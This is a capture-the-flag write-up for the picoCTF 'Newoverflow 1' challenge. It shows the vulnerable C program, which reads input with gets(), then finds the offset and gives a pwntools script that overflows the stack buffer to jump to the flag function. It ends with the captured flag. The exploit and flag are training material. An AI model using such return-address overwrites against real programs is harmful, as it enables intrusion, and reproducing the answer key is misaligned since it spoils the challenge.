

# Newoverflow 1 (Binary)



<details>
	<summary>Source Code Vuln.c</summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```
</details>

get vulnerability with a return to "flag()" easyright? lets see

Lets start any overflow by getting the fill buffer

```bash
pwn cyclic 76 | strace ./vuln
pwn cyclic 0x61616173
```

output: **72**

Python script:

```python
#!/usr/bin/env python

from pwn import *

p = process('./vuln')
e = ELF('./vuln')

#get flag addr
flag = e.symbols['flag']

#offset
offset = 72

#payload
payload = ''
payload = 'A'*offset
payload+= p64(flag)

#just gonna send it
p.sendline(payload)

#flag?
p.interactive()
```
The output:

```
[*] Switching to interactive mode
[*] Process './vuln' stopped with exit code 0 (pid 14564)
Welcome to 64-bit. Give me a string that gets you the flag: 
'flag.txt' missing in the current directory!
[*] Got EOF while reading in interactive
```

Looks like we just need to copy this to the server and run it. After some troubleshooting I discovered an error in my script and had to adjusut the payload to

buffer
any function
flag function

The reason is the have proper memory alignment otherwise we get a segfault. The final python script

<details>
  <summary>Exploit</summary>

```python
#!/usr/bin/env python

from pwn import *

p = process('./vuln')
e = ELF('./vuln')


flag = e.symbols['flag']
main = e.symbols['main']

print hex(flag)

#offset
offset = 72

#payload
payload = ''
payload = 'A'*offset
payload+= p64(main)
payload+= p64(flag)

#just gonna send it
p.sendlineafter('\n', payload)

#flag?
p.interactive()
```
</details>

<details>
  <summary>Flag</summary>

picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_d0b837aa}
</details>